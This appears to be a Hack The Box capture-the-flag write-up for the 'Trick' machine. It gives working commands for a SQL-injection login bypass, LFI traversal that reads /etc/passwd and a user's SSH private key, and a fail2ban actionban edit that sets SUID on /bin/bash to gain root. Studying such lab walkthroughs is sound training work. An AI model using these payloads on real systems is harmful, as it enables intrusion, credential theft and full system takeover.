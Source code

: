 **Target:  10.10.11.166    trick.htb**

**Initial Access:**\
nmap -Pn 10.10.11.166 -p- --min-rate=5000|grep open|awk -F '/' '{print $1}'|tr '\n' ','\
output return showed open ports: 22,25,53,80

Enumerating these ports further with nmap:\
nmap -Pn 10.10.11.166 --min-rate=5000  -p 22,25,53,80 -sC -sV -oN nmap.trick

![image](https://user-images.githubusercontent.com/93153300/197863434-3a453cf2-a744-4f75-b9c9-91e36a5fea23.png)
 
Enumerating port 53 with dig:\
First, put into file /etc/hosts: 10.10.11.166  trick.htb\
Next run command: dig any trick.htb  10.10.11.166\
Found a new domain: root.trick.htb.	\
Add this into /etc/hosts: 10.10.11.166  root.trick.htb\
However, navigating to that page doesn’t show anything of interest.

Next, try a domain transfer: \
dig axfr trick.htb @10.10.11.166\
Output shows a new domain:  preprod-payroll.trick.htb\
Add this to /etc/hosts:   10.10.11.166  preprod-payroll.trick.htb

Navigate to http://preprod-payroll.trick.htb		\
Automatically get redirected to a login page: http://preprod-payroll.trick.htb/login.php\
Bypass the login by entering a sql injection in the username password field:  ‘ or 1=1--

It works, and we get logged in as Administrator, and redirected to:\ http://preprod-payroll.trick.htb/index.php?page=home\
However, navigating this page leads to nothing of interest.  

Looking at the domain preprod-payroll.trick.htb , let’s fuzz and see if we can find other subdomains.  Since payroll is a description of a certain field maybe other fields will show a hidden subdomain. To fuzz the payroll field run:  \
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host:preprod-FUZZ.trick.htb" -u "http://trick.htb" --hh 5480  
Found a new subdomain:   preprod-marketing.trick.htb\
Add this to /etc/hosts: 10.10.11.166   preprod-marketing.trick.htb\
Navigate to that site shows:

![image](https://user-images.githubusercontent.com/93153300/197863486-276a86d0-fc8a-492e-8768-48ce0e3c23a9.png)

Clicking on the top of the page on services, about, or contact directs to:\
http://preprod-marketing.trick.htb/index.php?page=services.html

The parameter ?page= could be vulnerable to lfi so I’ll fuzz for lfi:\
wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://preprod-marketing.trick.htb/index.php?page=FUZZ" --hh 0

Output reveals it is vulnerable to lfi:   \
http://preprod-marketing.trick.htb/index.php?page=....//....//....//etc/passwd

![image](https://user-images.githubusercontent.com/93153300/197863529-d5d79994-c85d-4896-bb08-7017b9766c91.png)

This reveals a user on the target named michael.   Upon checking, we find user Michael has a private ssh key: http://preprod-marketing.trick.htb/index.php?page=....//....//....//home/michael/.ssh/id_rsa	

![image](https://user-images.githubusercontent.com/93153300/197863588-acf15dbd-9f73-42e1-adab-d813facabd03.png)
 

Copy the key and create a file with the private key.  Next, change permissions to the file so it doesn’t error when trying to use it to log in with ssh: chmod 600 id_rsatarget.\
Finally, using ssh log into user michael with his private key:\
ssh -i id_rsatarget michael@10.10.11.166\
We have shell as michael, open /home/michael/user.txt to get the flag.
____________________________________________________________________________
**Privilege Escalation:**
Running command: sudo -l\
Output shows: 

![image](https://user-images.githubusercontent.com/93153300/197863644-6cf09356-ccea-4018-a6c8-34ee9f08a4a2.png)
Google search: fail2ban privilege escalation   → Plenty of articles showing this privilege escalation
Fail2ban is an application run by root that will ban your ip from ssh login if you enter too many incorrect passwords within a certain time limit.  If you can edit fail2ban file  /etc/fail2ban/action.d/iptables-multiport.conf then you can insert any command, and then cause fail2ban to run due to entering too many incorrect passwords in the specified time frame.  
It is important to note that in order for fail2ban to apply the changes you make you must be able to restart fail2ban.   Let’s check the 2 steps needed to be able to use this exploit.

Step 1: Check if we have permission to restart fail2ban:\
Sudo -l command above, showed that we have permission to restart fail2ban.  

Step 2: Check if we can edit the file:\
Checking /etc/fail2ban/action.d/iptables-multiport.conf permissions: 	\
ls -al  /etc/fail2ban/action.d/iptables-multiport.conf	 

![image](https://user-images.githubusercontent.com/93153300/197863697-088b2205-6250-4702-9dba-0d37efba2c3a.png)
 
Output shows that user michael, cannot write to this file, However, ls -al does show that the group security has full permissions in this folder.  \
Run command ‘id’ to check what groups user michael is part of.   Output on command id confirms that Michael is part of the security group, so we can edit this file. 

Seeing that we have permissions to perform both steps let’s use this to escalate to root.\
First, open file iptables-multiport.conf: vi iptables-multiport.conf\
Then, under ‘actionban’, add command: chmod 4755 /bin/bash

![image](https://user-images.githubusercontent.com/93153300/197863738-15074845-4878-4b96-813a-47080289f64a.png)
 

Next, update fail2ban by restarting it:\
sudo /etc/init.d/fail2ban restart

Finally, log into ssh and enter the incorrect password many times.  To be sure to pass the permitted limit of incorrect passwords in time we will use a basic bash script and run it from our terminal:  \
while true;  do sshpass -p password ssh michael@10.10.11.166; done

ls -al confirms /bin/bash permissions have changed to have suid permissions.

![image](https://user-images.githubusercontent.com/93153300/197863764-f444322a-4d1e-4270-898a-f98bcf1cf909.png)
 
To escalate to root:\
/bin/bash -p 

We are now root, open /root/root.txt  to get the flag.

